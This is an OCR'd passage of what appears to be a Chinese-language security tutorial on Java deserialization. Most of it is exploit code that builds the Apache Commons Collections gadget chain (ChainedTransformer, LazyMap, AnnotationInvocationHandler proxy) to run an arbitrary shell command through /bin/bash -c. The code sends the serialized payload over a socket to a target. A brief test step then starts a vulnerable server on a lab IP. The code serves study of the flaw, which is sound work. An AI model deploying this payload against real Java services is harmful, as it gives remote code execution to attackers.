 ```java
                        "/bin/bash",
                        "-c",
                        cmd
                    }
                }
            )
        };
        Transformer         tchain      = new ChainedTransformer( tarray );
        Map                 normalMap   = new HashMap();
        Map                 lazyMap     = LazyMap.decorate( normalMap, tchain );
        Class               clazz       = Class.forName( "sun.reflect.annotation.AnnotationInvocationHandler" );
        Constructor         cons        = clazz.getDeclaredConstructor( Class.class, Map.class );
        cons.setAccessible( true );
        /*
         * https://docs.oracle.com/javase/8/docs/api/java/lang/Override.html
         *
         * Override是Annotation的子接口，且是public的
         */
        InvocationHandler   ih          = ( InvocationHandler )cons.newInstance( Override.class, lazyMap );
        /*
         * https://docs.oracle.com/javase/8/docs/api/java/util/Map.html
         *
         * Map是个接口，因此可以使用动态代理机制。参看:
         *
         * http://scz.617.cn/misc/201911291425.txt
         *
         * 2.2) TicketServiceClient1.java
         */
        Map                 mapProxy    = ( Map )Proxy.newProxyInstance
        (
            Map.class.getClassLoader(),
            new  Class[] { Map.class },
            ih
        );
        Object              obj         = cons.newInstance( Override.class, mapProxy );
        Socket              s_connect   = new Socket( addr, port );
        ObjectOutputStream  oos         = new ObjectOutputStream( s_connect.getOutputStream() );
        oos.writeObject( obj );
        oos.close();
        s_connect.close();
    }
}
```

8.3.3) 测试

执行服务端:

java_8_40 \
-cp "commons-collections-3.1.jar:." \
VulnerableServer 192.168.65.23 1414
